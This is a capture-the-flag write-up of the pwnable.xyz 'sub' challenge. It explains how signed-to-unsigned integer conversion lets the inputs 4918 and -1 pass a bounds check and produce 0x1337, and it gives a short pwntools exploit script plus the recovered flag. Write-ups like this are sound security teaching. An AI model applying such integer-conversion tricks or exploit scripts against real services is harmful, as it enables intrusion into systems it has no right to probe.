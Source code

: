 # pwnable.xyz - sub
Link to binary: https://pwnable.xyz/redisfiles/challenge_22.gz

Description: *Do you know basic math?*
 
## binary
Running `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.

![](images/file.png)
![](images/checksec.png)

The description and the name of the challenge already hint to a C arithmetic issue through subtraction, so we have an idea of what to expect.

## ./challenge
Running the binary prints a `1337 input:` prompt which seems to expect two numbers and then just exits. Let's decompile with **ghidra** and take a look at what the program actually does.

## Ghidra
### main()
![](images/main.png)

It's a simple program that uses **__isoc99_scanf()** to read 2 integers separated by a space and converts them to **unsigned** before assigning them to a and b variables respectively. Then it checks that both a and b are less than **0x1337** and then subtracts b from a. If the result is *somehow* equal to **0x1337** it prints the flag. But how can the equation `a - b = 0x1337` be true?

## vulnerability
In C, integers are typically **4-byte** long and **signed**, which means that they have a value range of **-2,147,483,648** to **2,147,483,647**. Unsigned integers have a value range of **0** to **4,294,967,295**. Assigning a negative value to an unsigned integer, will result in assigning the bit value of said integer to the unsigned one. This means that -1, which in represented as **0xffffffff** in hex, will have the same hex value when converted to unsigned, but the corresponding decimal value will now be 4,294,967,295. So we basically **turned -1 into 4,294,967,295**.

## attack plan
The above equation should now seem more feasible. Since we can basically represent any 32-bit unsigned value using this trick, we just need to find 2 values for a and b that satisfy the equation. I used the values **4918 (0x1336)** and **-1 (0xffffffff)**. If the result of `0x1336 - 0xffffffff` isn't too obvious you can think it as `0x1336 - (-1) = 0x1336 + 1 = 0x1337`

## exploit
The script below just sends the 2 values to be subtracted and receives the flag.

```python
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
'''

IP = "svc.pwnable.xyz"
PORT = 30001

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    io.sendlineafter("1337 input:", "4918 -1")  # 0x1336 - 0xffffffff = 0x1337
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run it on the server and we get the flag:
`FLAG{sub_neg_==_add}`
